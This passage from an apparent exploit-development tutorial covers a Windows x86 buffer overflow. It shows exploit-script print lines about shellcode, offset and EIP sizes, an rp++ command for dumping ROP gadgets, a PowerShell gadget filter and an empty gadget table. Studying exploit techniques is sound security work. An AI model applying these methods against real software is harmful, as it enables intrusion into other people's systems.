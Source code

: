 ```python

print("Sending evil buffer...")
print("Shellcode size " + str(len(shellc)))
print("Offset size " + str(len(offset)))
print("VA size " + str(len(va)))
print("Offset to EIP " + str(len(va)+len(offset)+len(shellc)))
print("ROP size " + str(len(rop)))

```

We will now use RP++ and a custom built power-shell script to generate and sort gadgets that we can utilise. 

```python
.\rp-win-x86.exe -f C:\Users\initroot\xxxx -r 3 > gadgets.txt
```

```python

gci .\gadgets  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(mov e[a-z][a-z], esp).*?((retn  ;)|(ret  ;))"  | Select-String -Pattern "(leave)" -NotMatch
```

We also make use of an power-shell `gci` function to manually sort and filter our gadgets. For now we build a quick table that allows us to do simple things like copy between etc.

We analyse our ROP gadgets to setup backup and restore gadgets that can be used during the exploit process.

| Gadget Location | From | To | Gadget Ins. |
| --- | --- | --- | --- |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
|  |  |  |  |
